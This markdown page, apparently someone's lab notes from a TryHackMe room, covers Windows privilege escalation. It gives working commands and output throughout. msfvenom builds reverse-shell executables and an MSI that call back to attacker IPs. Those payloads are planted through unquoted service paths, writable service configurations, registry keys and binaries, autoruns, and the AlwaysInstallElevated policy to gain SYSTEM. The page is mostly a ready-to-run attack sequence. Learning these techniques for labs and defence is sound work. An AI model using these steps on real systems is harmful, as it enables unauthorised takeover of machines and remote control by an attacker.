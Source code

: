 ```yaml
---
title: Windows Privesc
description: Windows privilege escalation.
---
```


# Windows Privesc

## Tools

- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

## Reverse shell

Using `msfvenom` :

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe -o revshell.exe
```

Using [nishang](https://github.com/samratashok/nishang).

## Services

### Unquoted path

- `C:\Program.exe`
- `C:\Program Files\Unquoted.exe`
- `C:\Program Files\Unquoted Path Service\Common.exe`
- `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```powershell
C:\PrivEsc>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Check if we can write into the folder
C:\PrivEsc>accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

# Copy reverse shell
C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.

C:\PrivEsc>net start unquotedsvc
...
```

### Insecure service permissions

List permissions of a user using `accesschk.exe`.

```powershell
C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>

C:\> accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

**SERVICE_CHANGE_CONFIG** : Change the service configuration.

```powershell
# Check the service 'daclsvc' configuration (qc : query configuration)
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Change the binpath value
C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>sc qc daclsvc
[...]
        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
[...]

# Start the service 'daclsvc'
C:\PrivEsc>net start daclsvc
```

### Insecure registry permissions

Add registy keys :

```powershell
C:\PrivEsc>sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)
C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

# Add registry key to execute reverse shell
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\User\revshell.exe /f
The operation completed successfully.

C:\PrivEsc>net start regsvc
...
```

### Insecure file permissions

Service binary file is writable by everyone (`BUILTIN\Users`) :

```powershell
C:\PrivEsc>sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS

# Replace service binary file by a reverse shell
C:\PrivEsc>copy C:\Users\user\revshell.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
Overwrite C:\Program Files\File Permissions Service\filepermservice.exe? (Yes/No/All): Yes
Yes
        1 file(s) copied.

C:\PrivEsc>net start filepermsvc
...
```

## Autoruns

List autoruns : 

```powershell
C:\Users\user>wmic startup get caption,command
Caption         Command
SecurityHealth  %windir%\system32\SecurityHealthSystray.exe
My Program      "C:\Program Files\Autorun Program\program.exe"
```

If you can overwrite `C:\Program Files\Autorun Program\program.exe`, you can replace it by your reverse shell and wait for the `administrator` to log in.

## AlwaysInstallElevated

You can use the AlwaysInstallElevated policy to install a Windows Installer package with elevated (system) privileges (docs : [link](https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)).

To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to "1" under both of the following registry keys:

- `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
- `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`

```powershell
C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```powershell
C:\Users\user>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Exploitation :

```powershell
# Attacker host
$ msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=10.9.52.138 LPORT=9000 -f msi -o reverse_installer.msi

# Victim host
c:\Users\user>msiexec /qn /i "C:\Users\user\reverse_installer.msi"
```

## References

- https://tryhackme.com/room/windows10privesc